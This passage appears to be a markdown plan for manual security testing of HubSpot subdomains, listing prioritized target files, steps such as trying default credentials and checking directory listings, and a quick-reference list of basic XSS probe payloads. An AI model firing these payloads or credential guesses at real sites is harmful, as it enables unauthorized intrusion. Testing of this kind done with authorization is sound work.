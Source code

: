 **Note**: This is optional for initial enumeration. We can skip this and go straight to manual testing.

---

## Manual Testing Phase (Start After Enumeration)

### Priority Testing Order

#### Round 1: Tier 1 Priority Targets (Focus Here First)
```bash
# Test these manually for XSS:
cat ~/hubspot_recon/priority/tier1_priority.txt
```

**For each subdomain, test**:
1. Visit in browser
2. Look for error pages (404, 500)
3. Test XSS in URL parameters: `?q=<script>alert(1)</script>`
4. Test XSS in search: `"><script>alert(1)</script>`
5. Check for login page (default creds)
6. Check for directory listing
7. Check robots.txt

#### Round 2: Known Interesting (From Your Research)
```bash
# Test these specifically:
- exceptions.hubspot.com (error reporting)
- Any *.qa.hubspot.com subdomains
- Any *.app-*.hubspot.com pattern
```

#### Round 3: Tier 2 If No Success Yet
```bash
cat ~/hubspot_recon/priority/tier2_priority.txt
```

---

## Quick Reference: XSS Test Payloads

**Test these on each subdomain**:

```html
# Basic tests
<script>alert(1)</script>
"><script>alert(1)</script>
'><script>alert(1)</script>

# Event handlers
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>

# URL reflection
?redirect=javascript:alert(1)
?url=javascript:alert(1)

# Parameter reflection
?q="><svg/onload=alert(1)>
?search=<img src=x onerror=alert(1)>
```

---